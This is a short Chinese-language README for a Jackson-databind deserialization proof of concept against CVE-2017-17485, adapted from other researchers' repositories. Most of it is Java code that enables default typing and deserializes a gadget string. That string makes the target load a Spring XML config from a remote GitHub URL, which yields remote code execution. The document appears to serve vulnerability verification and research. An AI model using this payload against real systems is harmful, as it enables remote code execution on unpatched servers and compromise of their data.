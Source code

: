 # Jackson 反序列化

本war包基于廖师傅 https://github.com/shengqi158/Jackson-databind-RCE-PoC 的改造

基友的hucheat https://github.com/hucheat/vulns/tree/master/cve-2017-17485_web_vuln

## 验证代码

```
package jackson;

import java.io.IOException;

import com.fasterxml.jackson.databind.ObjectMapper;

/**
 * Jackson CVE-2017-17485
 * 2018-01-22
 * @author Bearcat
 *
 */
public class poc {
	
	public static void payload() {
		// CVE-2017-17485
		//["org.springframework.context.support.ClassPathXmlApplicationContext", "http://127.0.0.1/spel.xml"]
		String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
	                "\"https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml\"]\n";
		System.out.println(payload);
		ObjectMapper mapper = new ObjectMapper();
		mapper.enableDefaultTyping();
		try {
			mapper.readValue(payload, Object.class);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String args[]) {
		payload();
	}
}

```

![payload](https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/img/1.jpg)
